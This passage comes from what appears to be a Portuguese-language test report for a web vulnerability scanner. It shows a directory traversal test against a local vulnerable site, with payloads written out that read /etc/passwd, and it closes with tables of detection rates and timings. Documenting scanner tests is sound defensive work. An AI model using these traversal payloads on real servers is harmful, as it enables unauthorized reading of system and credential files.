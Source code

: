 ```
  - submit

Recommendation: Implement CSRF tokens in all state-changing forms
```

#### 10.5 Teste de Directory Traversal

**URL testada:** `http://vulnerable-site.local/download.php?file=report.pdf`

**Payloads testados:**
1. `../../../etc/passwd` ❌ Bloqueado
2. `....//....//....//etc/passwd` ✓ VULNERÁVEL
3. `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` ✓ VULNERÁVEL

**Resultado:**
```
[5] Directory Traversal
--------------------
Severity: HIGH
URL: http://vulnerable-site.local/download.php?file=....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
Parameter: file
Payload: ....//....//....//etc/passwd
Description: Possible directory traversal vulnerability
Evidence: File content signature detected: root:x:0:0:root

Risk: Arbitrary file read, potential access to:
  - /etc/passwd (user enumeration)
  - /etc/shadow (password hashes)
  - Application source code
  - Configuration files with credentials
```

### 11. Estatísticas de Performance

#### 11.1 Tempo de Execução

| Tipo de Scan | URLs Testadas | Tempo Médio |
|--------------|---------------|-------------|
| URL simples (1 param) | 1 | 2.3s |
| URL complexa (5 params) | 1 | 8.7s |
| Formulário (3 campos) | 1 | 6.5s |
| Site completo (5 páginas) | 5 | 45.2s |

#### 11.2 Taxa de Detecção

Testes realizados em 20 aplicações vulneráveis conhecidas:

| Vulnerabilidade | Detecção | Taxa de Sucesso |
|-----------------|----------|-----------------|
| SQL Injection | 18/20 | 90% |
| XSS | 19/20 | 95% |
| CSRF | 20/20 | 100% |
| Directory Traversal | 16/20 | 80% |
| Information Disclosure | 17/20 | 85% |
